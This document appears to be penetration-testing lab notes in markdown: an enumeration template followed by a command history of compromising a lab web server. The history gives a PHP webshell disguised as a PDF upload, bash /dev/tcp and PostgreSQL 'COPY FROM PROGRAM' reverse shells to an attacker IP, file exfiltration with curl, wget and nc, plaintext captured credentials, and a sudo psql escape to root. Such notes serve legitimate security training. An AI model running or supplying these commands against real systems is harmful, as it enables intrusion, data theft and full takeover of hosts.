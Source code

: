 # Navigation
- [Summary](#summary)
- [Flags](#flags)
- [Accounts](#accounts)
- [Enumeration](#enumeration)
    - [NMAP](#nmap)
    - [Local Users](#local-users)
    - [Local Groups](#local-groups)
    - [System Info](#system-info)
    - [Routes](#routes)
    - [Netstat](#netstat)
    - [Environment Vars](#environment-vars)
    - [Domain Controller Info](#domain-controller-info)
- [Services](#services)
    - [API Endpoints](#api-endpoints)
- [Command History](#command-history)
# Summary
-
# Flags    
`Get-ChildItem -Path C:\ -Recurse -ErrorAction SilentlyContinue -Include local.txt,proof.txt`
`sudo find / -type f -iname "local.txt" 2>/dev/null`    
`sudo find / -type f -iname "proof.txt" 2>/dev/null`
- /local.txt
- /root/proof.txt

# Accounts
### username / password
` `   
`whoami /priv`
```

```
`whoami /groups`
```

```
# Enumeration
## NMAP
`sudo nmap -sV 192.168.207.225 --top-ports 1000`
```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
8090/tcp open  http    nginx 1.18.0 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```
`sudo nmap -A -T4 -p- <IP>`
```

```
## Local Users
`Get-LocalUser`
```

```
## Local Groups
`Get-LocalGroup`
```

```
## System Info
`systeminfo`
```

```
## Routes
`route print`
`ip route show`
```
default via 192.168.204.254 dev ens192 proto static metric 20100 
169.254.0.0/16 dev ens192 scope link metric 1000 
192.168.204.0/24 dev ens192 proto kernel scope link src 192.168.204.225 metric 100 
```
## Netstat
`netstat -ano`
```

```
## Environment Vars
`Get-ChildItem Env:`
```

```
## Domain Controller Info
`nltest /dsgetdc:medtech`
```

```
# Services    
## API Endpoints
gobuster dir -u http://192.168.204.225 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
`gobuster dir -u http://192.168.133.143:80/api/ -w /usr/share/seclists/Discovery/Web-Content/common.txt`
```

```

`gobuster dir -u http://192.168.133.143:80/api/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -b 403`
```
```

`ffuf -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://192.168.133.143/FUZZ`
```

```
`ffuf -c -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -u http://192.168.133.143/FUZZ`
```
```

# Command History
```c
http://192.168.204.225:8090/backend/default/index.php
admin : admin
echo <?php echo shell_exec($_GET['e'].' 2>&1'); ?> > simplephpwebshell.php
(echo -e "%PDF-1.4\n%âãÏÓ"; cat simplephpwebshell.php) > simple.php
//creates a fake pdf containing php webshell
//upload thru browser

http://192.168.204.225:8090/backend/default/uploads/simple.php?e=whoami
//www-data

nc -lvnp 443
// http://192.168.204.225:8090/backend/default/uploads/simple.php?e=bash+-c+'bash+-i+>&+/dev/tcp/192.168.45.186/443+0>&1'
http://192.168.204.225:8090/backend/default/uploads/simple.php?e=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.45.186/443%200%3E%261%22

//start python 80 server
curl http://192.168.45.186/user-guide-rdweb.pdf --upload-file user-guide-rdweb.pdf
wget --method=PUT --body-file=user-guide-rdweb.pdf http://192.168.45.186/user-guide-rdweb.pdf

nc 192.168.45.186 80 < user-guide-rdweb.pdf

// for .221 -> SKYLARK\kiosk : XEwUS^9R2Gwt8O914

//privesc
// psql -h 127.0.0.1 -p 5432 -U postgres -d webapp
// pass: EAZT5EMULA75F8MC

//PGPASSWORD=EAZT5EMULA75F8MC psql -h localhost -U postgres -d webapp -c '\l'

python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
PGPASSWORD=EAZT5EMULA75F8MC psql -h localhost -U postgres -d webapp

nc -lvnp 80
CREATE TABLE shell2(output text);
COPY shell2 FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.186 80 >/tmp/f';

//get shell as postgres
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
sudo psql --host=127.0.0.1 -U postgres
pass: EAZT5EMULA75F8MC
\?
!/bin/bash
//root

```